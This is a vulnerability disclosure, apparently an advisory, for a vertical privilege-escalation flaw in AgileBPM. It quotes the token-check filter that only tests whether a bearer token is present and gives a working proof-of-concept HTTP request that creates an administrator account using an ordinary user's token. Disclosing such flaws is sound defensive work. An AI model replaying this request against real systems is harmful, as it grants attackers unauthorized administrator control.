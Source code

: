 ## 0x01 Introduction
<font style="color:rgb(30, 32, 36);">Shenzhen Dashi Tongzhou Information Technology Co., Ltd. is a diversified information technology company, focusing on software development, system integration and related technical services, committed to providing customers with a full range of IT solutions. AgileBPM is a powerful process platform, focusing on business online, automation!</font>

## 0x02 Vulnerability Overview
<font style="color:rgb(30, 32, 36);">AgileBPM has a vertical override vulnerability that allows an attacker to create an administrator account with common user rights and obtain admin permissions.</font>

## 0x03 Vulnerability version
<font style="color:rgb(30, 32, 36);">AgileBPM <= 1.0.0</font>

## 0x04 Code audit
In the doFilter method of \agile-bpm-basic-master\ab-auth\ab-auth-spring-security-oauth2\src\main\java\com\dstz\auth\filter\AuthorizationTokenCheckFilter.java, only the validation of whether the token is empty has been performed.

```plain
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
    HttpServletRequest req = (HttpServletRequest) request;

    // Handle anonymous interfaces
    if (this.isIngores(req)) {
        chain.doFilter(request, response);
        return;
    }

    String token = ServletUtil.getHeader(req, AUTHORIZATION, StrPool.EMPTY);
    // Check if the token is empty or only contains whitespace, or if it does not start with OAuth2AccessToken.BEARER_TYPE (usually "Bearer ").
    if (StrUtil.isBlank(token) || !token.trim().startsWith(OAuth2AccessToken.BEARER_TYPE)) {

        // Set the character encoding of the response to UTF-8 to ensure proper handling of response content characters.
        response.setCharacterEncoding(StandardCharsets.UTF_8.displayName());

        // Use the write method of the ServletUtil class to write a JSON-formatted failure message to the response,
        // with content generated by ApiResponse.fail. NO_AUTH_TOKEN.getCode() and NO_AUTH_TOKEN.getMessage() respectively
        // fetch the error code and message, and the response content type is set to application/json.
        ServletUtil.write((HttpServletResponse) response, JsonUtils.toJSONString(ApiResponse.fail(NO_AUTH_TOKEN.getCode(), NO_AUTH_TOKEN.getMessage())), MediaType.APPLICATION_JSON_VALUE);
    } else {
        // Continue executing the filter chain, calling the next filter or target resource, passing the request and response objects.
        chain.doFilter(request, response);
    }
}

```

Filterchain-class does not verify the permission level and expiration of the token.

![](https://cdn.nlark.com/yuque/0/2024/png/43117778/1733152561222-440b370b-0d88-4bf0-b2fd-43b3e30f12ed.png)

## **0x05 The vulnerability reappears**
Source code: [https://gitee.com/agile-bpm/agile-bpm-basic](https://gitee.com/agile-bpm/agile-bpm-basic)

Create the test account as a common user

![](https://cdn.nlark.com/yuque/0/2024/png/43117778/1733135149599-0e6bb5c8-e2eb-4957-a144-bea607dbdf23.png)

Login test does not have the user creation function

![](https://cdn.nlark.com/yuque/0/2024/png/43117778/1733135207724-597321dd-4164-4e38-9223-d98613299764.png)

The token is obtained by capturing packets

![](https://cdn.nlark.com/yuque/0/2024/png/43117778/1733135283702-0270b97a-7541-4dae-9f0a-20dbb68d0cfd.png)

roleid is a fixed value

![](https://cdn.nlark.com/yuque/0/2024/png/43117778/1733136697628-400c6a60-0741-4b81-932e-7cc752c60e37.png)

Use the token of test to create an administrator account.

![](https://cdn.nlark.com/yuque/0/2024/png/43117778/1733152506911-955592f4-7d49-42c9-b8b3-5d7d024da848.png)

If you log in to user1, you can find that it has the permission of admin

![](https://cdn.nlark.com/yuque/0/2024/png/43117778/1733136128851-d8bf802b-f503-4338-85a0-05d4007f8b9b.png)

poc：

```plain
POST /api/ab-org/user/saveUserDto HTTP/1.1
Host: 192.168.187.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.187.129/org/user/userEdit
Content-Type: application/json;charset=UTF-8
Authorization: Bearer 5g3uN8tUtgMI4_Yz8mvwuIwJNvQ
Content-Length: 305
Origin: http://192.168.187.129
Connection: close
Priority: u=0

{"id":"","fullname":"user1","account":"user1","password":"123456","status":1,"orgRelationList":[{"type":"userRole","roleId":"1610480371538956288","roleName":""},{"type":"userRole","roleId":"1605464389708218368","roleName":""},{"type":"userRole","roleId":"1605464158287495168","roleName":""}],"address":""}
```





## 0x06 Repair Solution
Add Authorization authentication.



